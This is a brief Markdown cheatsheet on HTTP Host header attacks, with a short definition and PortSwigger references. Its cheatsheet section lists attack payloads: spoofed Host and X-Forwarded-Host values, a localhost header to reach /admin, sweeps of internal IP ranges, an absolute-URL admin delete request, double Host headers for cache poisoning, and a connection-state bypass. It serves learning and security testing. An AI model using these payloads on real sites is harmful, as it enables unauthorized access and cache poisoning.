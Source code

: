 
# Host header attack

## Definition

A **Host header attack** is a type of cyber attack in which an attacker manipulates the Host header of a request in order to trick a web server into thinking the request is coming from a different website. This can allow the attacker to access resources or information that they would not normally have access to, or to perform actions on the targeted website that they would not normally be able to do. The Host header is a field in the HTTP request header that specifies the domain name of the website that the client is trying to access. By modifying this field, an attacker can direct the server to respond to their request as if it were coming from a different website.

## Cheatsheet

- `Host: exploit-XXXX`
- `X-Forwarded-Host: exploit-XXXXX`
- `GET /admin` bypass with `Host: localhost`
- Enum local networks : `Host: 192.168.0.67`, from 1 to 255
- Absolute URL in path :

```
POST https://example.com/admin/delete HTTP/1.1
Host: 192.168.0.15
...
```

- Submit double Host header (link $HOST/resource/toto.js, spoof host in cache)
- Bypass host header check with `Connection: keep-alive`, [connection-state-attack](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack)

## References

- [PortSwigger - HTTP Host header attacks](https://portswigger.net/web-security/host-header)